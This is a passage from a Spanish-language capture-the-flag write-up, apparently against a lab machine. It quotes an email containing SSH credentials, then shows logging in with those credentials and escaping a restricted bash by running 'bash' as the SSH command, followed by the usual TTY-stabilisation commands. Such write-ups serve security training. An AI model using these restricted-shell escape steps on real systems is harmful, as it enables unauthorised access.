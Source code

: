```
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

## Intrusión

Nos conectamos por `SSH` y `escapamos` de la `restricted bash`

```
# ssh mindy@10.129.188.225 bash   
mindy@10.129.188.225's password: 
whoami
mindy
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
